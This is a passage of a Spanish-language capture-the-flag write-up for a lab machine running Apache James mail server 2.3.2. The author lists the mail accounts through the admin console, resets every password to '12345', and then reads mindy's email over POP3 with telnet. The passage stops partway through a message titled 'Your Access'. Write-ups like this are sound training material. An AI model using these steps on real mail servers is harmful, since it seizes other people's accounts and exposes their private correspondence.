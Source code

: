 ```console
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```
en este punto listare los usuarios y cambiare sus respectivas contraseñas para ver si logueandome por telnet al puerto 110 llego a ver algo que corre pop3 (protocolo de transeferencia de correos)

```console
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
setpassword james 12345
Password for james reset
setpassword thomas 12345
Password for thomas reset
setpassword john 12345
Password for john reset
setpassword mindy 12345
Password for mindy reset
setpassword mailadmin 12345               
Password for mailadmin reset
```
una vez cambiada las credenciales procederé a conectarme por telnet, checando con cada uno de los usuarios veo que no tienen nada importante a excepción de mindy que tiene dos correos y uno de ellos nos setea una contraseña

```console
$ telnet 10.10.10.51 110  
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS 12345
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,

```